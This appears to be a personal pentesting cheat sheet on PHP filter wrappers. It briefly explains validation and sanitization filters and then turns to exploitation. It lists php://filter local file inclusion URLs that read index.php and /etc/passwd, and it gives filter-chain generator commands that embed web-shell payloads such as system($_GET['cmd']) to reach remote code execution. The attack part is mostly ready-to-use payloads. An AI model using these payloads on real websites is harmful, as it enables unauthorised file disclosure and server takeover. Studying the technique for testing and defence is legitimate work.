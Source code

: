 # PHP Filters

PHP Filters are a powerful wrappers of lots a functionality that take input and perform operations on it without developer having to write in-house checks, filters, etc against common input to website.
- [Validation Filters perform type and pattern checks](https://www.php.net/manual/en/filter.filters.validate.php)
- [Sanitization Filters perform string operations to modify unsafe input](https://www.php.net/manual/en/filter.filters.sanitize.php)
- [Only other is "callback" where all flags are ignored](https://www.php.net/manual/en/filter.filters.misc.php)
- [PHP Filter flags](https://www.php.net/manual/en/filter.filters.flags.php) provides developers to filter by builtin conditions-on-passed-input, encode the input.

File inclusion vulnerability exists due to how php filters are used with `include()`

[LFI / RFI using PHP://filters](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/File%20Inclusion/README.md#lfi--rfi-using-wrappers)
```php
// only php://filter is case insensitive
http://example.com/index.php?page=php://filter/read=string.rot13/resource=index.php
http://example.com/index.php?page=php://filter/convert.iconv.utf-8.utf-16/resource=index.php
http://example.com/index.php?page=php://filter/convert.base64-encode/resource=index.php
http://example.com/index.php?page=pHp://FilTer/convert.base64-encode/resource=index.php
// They can be chained together with:
// | or /
http://example.com/index.php?page=php://filter/zlib.deflate/convert.base64-encode/resource=/etc/passwd
// base64encode only for limit exfil - buffer size 8192 bytes
```
- [PHP Documentation base64encode](https://www.php.net/manual/en/function.base64-encode.php)
- [Filter Chains can used to chain encodings till a desired payload - yikes](https://www.synacktiv.com/en/publications/php-filters-chain-what-is-it-and-how-to-use-it.html)
	- Generate PHP filter chains with [synacktiv/php_filter_chain_generator](https://github.com/synacktiv/php_filter_chain_generator)
	- Junk characters do end up appended to the end
- [LFI2RCE.py](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/File%20Inclusion/LFI2RCE.py)
- Consider [Hacktrick improves on a Alles CTF script to get LFI2RCE vai PHP filter](https://book.hacktricks.xyz/pentesting-web/file-inclusion/lfi2rce-via-php-filters)

```bash
python3 php_filter_chain_generator.py --chain '<?php system($_GET["cmd"]);?>'
```
No `system` no problem
```bash
python3 php_filter_chain_generator.py --chain '<?= exec($_GET[0]); ?>'
```